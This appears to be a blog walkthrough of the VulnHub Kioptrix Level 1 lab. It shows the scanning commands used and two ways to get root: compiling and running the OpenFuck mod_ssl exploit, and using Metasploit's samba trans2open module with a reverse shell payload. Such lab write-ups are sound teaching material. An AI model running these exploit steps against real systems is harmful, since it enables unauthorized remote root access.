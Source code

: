 ```yaml
---
layout: post
title: "VulnHub - Kioptrix Level 1"
date: 2022-02-04
categories: [VulnHub]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix Level 1/kioptrix.png 

---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using netdiscover tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![netdiscover](../../assets/img/posts/Kioptrix Level 1/netdiscover.png)

Okay, so the IP address of the box is 10.0.2.21.

Now, let's start port scanning with **nmap**,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.21
```

![nmap1](../../assets/img/posts/Kioptrix Level 1/nmap1.png)
![nmap2](../../assets/img/posts/Kioptrix Level 1/nmap2.png)

there are multiple open ports present. We'll enumerate them individually.

Since we know that this box is running a webserver which host a website, so we'll first see how many technologies are running on website with whatweb tool,

```bash
whatweb http://10.0.2.21
```

![whatweb](../../assets/img/posts/Kioptrix Level 1/whatweb.png)

this is running mod_ssl (exploit) impressive :0. Let's enumerate it more.

let's visit http://10.0.2.21,

![web1](../../assets/img/posts/Kioptrix Level 1/web1.png)

that's a simple apache installation text page.

let's visit https://10.0.2.21 as well,

![web2](../../assets/img/posts/Kioptrix Level 1/web2.png)

we can see that this is a same page which we encountered before on port 80.

Let's run **nikto** tool to scan website for vulnerabilities,

```bash
nikto --host http://10.0.2.21
```

![nikto1](../../assets/img/posts/Kioptrix Level 1/nikto1.png)

there are many things to look for but the thing which takes my attention is this website is vulnerable to **mod_ssl 2.8.4 exploit**.

![nikto2](../../assets/img/posts/Kioptrix Level 1/nikto2.png)

We can take a look at this exploit code on https://www.exploit-db.com/exploits/764 and this exploit's name is OpenFuckV2. This mod_ssl vulnerability allows buffer overflow to gain remote shell.

Let's look at the how this exploit work and download this exploit from github https://github.com/heltonWernik/OpenLuck

![web3](../../assets/img/posts/Kioptrix Level 1/web3.png)

follow the steps in usage image from github to fireup the exploit,

```bash
git clone https://github.com/heltonWernik/OpenLuck.git
cd Openluck
sudo apt-get install libssl-dev
compiling exploit,
gcc -o OpenFuck OpenFuck.c -lcrypto
```

let's see how this exploit works,

```bash
./OpenFuck
```

![openluck](../../assets/img/posts/Kioptrix Level 1/openluck.png)

seems like we've to first we've to provide supported offset of the version running on the box.

we'll use RedHat linux 7.2 version offset 0x6b,

```bash
./OpenFuck 0x6b 10.0.2.21 443 -c 41
```

![openluck2](../../assets/img/posts/Kioptrix Level 1/openluck2.png)

we got ROOT!!!

Note: This exploit might take 2-3 tries to get you a shell, so try hard ;).

## Metasploit Method

Let's fireup the metasploit framework using `msfconsole` and we'll look how to exploit this box.

we'll search for samba exploit modules in msfconsole,

```bash
search linux samba
```

![msf1](../../assets/img/posts/Kioptrix Level 1/msf1.png)

okay, so we got trans2open exploit and we're going to use that to gain a system access.

```bash
use exploit/linux/samba/trans2open
```

![msf2](../../assets/img/posts/Kioptrix Level 1/msf2.png)

we can see that our payload is automatically assigned as generic/shell_reverse_tcp, if not, then set it using `set payload generic/shell_reverse_tcp`.

now type `options` to show list of options we have in this module,

![msf3](../../assets/img/posts/Kioptrix Level 1/msf3.png)

here we'll set RHOSTS to our kioptrix box's IP. To set this ip, type `set rhosts 10.0.2.21` and then fireup the module using `exploit`,

![msf4](../../assets/img/posts/Kioptrix Level 1/msf4.png)
![msf5](../../assets/img/posts/Kioptrix Level 1/msf5.png)

we got system shell!!

**Note: After firing up this exploit, it might take some time get root shell. Have patience and if it doesn't work then try again.**

We saw both methods, i.e. Manual method by using OpenFuckV2 exploit and Automated Method using Metasploit Framework to exploit this box.
